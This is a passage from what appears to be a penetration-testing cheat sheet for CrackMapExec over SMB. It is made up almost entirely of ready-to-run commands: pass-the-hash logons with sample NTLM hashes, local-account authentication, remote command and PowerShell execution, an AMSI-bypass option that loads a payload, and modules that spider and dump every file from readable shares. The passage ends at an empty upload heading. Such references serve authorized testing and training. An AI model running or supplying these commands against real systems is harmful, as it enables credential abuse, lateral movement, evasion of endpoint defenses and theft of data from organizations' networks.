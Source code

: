     ```bash
    crackmapexec smb <target_ip> -u <username> -H '<LM:NT>'
    crackmapexec smb <target_ip> -u <username> -H '<ntlmhash>'

    crackmapexec smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
    crackmapexec smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454'
    ```
*   **Authenticate Using User/Password/Hashes:** Adding `--local-auth` to any of the authentication commands with attempt to logon locally.

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' --local-auth
    crackmapexec smb <target_ip> -u <username> -p '<password>' --local-auth
    crackmapexec smb <target_ip> -u <username> -H '<LM:NT>' --local-auth
    crackmapexec smb <target_ip> -u <username> -H '<ntlmhash>' --local-auth

    crackmapexec smb <target_ip> -u <username> -H '13b29964cc2480b4ef454c59562e675c' --local-auth
    crackmapexec smb <target_ip> -u <username> -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
    ```
*   **Executing commands:** Uses wmiexec, atexec, or smbexec.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -x 'whoami'
    ```
*   **Executing PowerShell commands:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -X '$PSVersionTable'
    ```
*   **Bypass AMSI:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -X '$PSVersionTable' --amsi-bypass /path/payload
    ```
*   **Spidering Shares:** Default option. Notice the '$' character has to be escaped. (example shown can be used as-is in a kali linux terminal)

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --spider C\$ --pattern txt
    ```
*   **Spidering Shares Using Spider\_plus:** The module `spider_plus` allows you to list and dump all files from all readable shares.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M spider_plus
    ```
*   **Dump all files:** Using the option `-o` READ\_ONLY=false all files will be copied on the host

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M spider_plus -o READ_ONLY=false
    ```
*   **Upload a local file to the remote target:**
